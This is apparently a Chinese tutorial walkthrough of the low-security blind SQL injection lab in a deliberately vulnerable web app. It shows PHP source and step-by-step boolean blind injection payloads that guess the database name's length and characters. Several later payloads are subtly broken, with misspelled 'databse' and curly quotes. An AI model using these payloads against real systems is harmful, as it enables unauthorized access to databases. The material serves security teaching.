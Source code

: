 ```php+HTML
	}

	if ($exists) {
		// Feedback for end user
		$html .= '<pre>User ID exists in the database.</pre>';
	} else {
		// User wasn't found, so the page wasn't!
		header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

		// Feedback for end user
		$html .= '<pre>User ID is MISSING from the database.</pre>';
	}

}

?>
```

可以发现Low级别的代码对参数id没有做任何检查、过滤，存在明显的SQL注入漏洞

**1.判断是否存在注入，注入类型**

输入1，显示User ID exists in the database. （显示存在）

再输入 1' and 1=1 # ，输出 exists

继续输入 1' and 1=2 #，显示missing。

User ID is MISSING from the database. （显示不存在）

说明存在字符型的盲注。

**2.猜数据库名**

1' and length(database())=1 #

1' and length(database())=2 #

1' and length(database())=3 #

...

先猜数据库名长度，看到哪个数字显示User ID exists in the database，就说明数据库名长度为多少。

1' and length(database())=1 #，显示不存在，继续

1' and length(database())=2 #，显示不存在，继续

1' and length(database())=3 #，显示不存在，继续

1' and length(database())=4 #，显示存在，说明数据库名长度为4。

已知数据库名长度，继续猜解数据库名，这里会用到二分法，有点类似枚举法。

1’ and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）

1’ and ascii(substr(databse(),1,1))<101 #，显示存在，说明数据库名的第一个字符的ascii值小于101（小写字母e的ascii值）

1’ and ascii(substr(databse(),1,1))<100 #,显示不存在，说明数据库名的第一个字符的ascii值不小于100，（小写字母d的ascii的值）
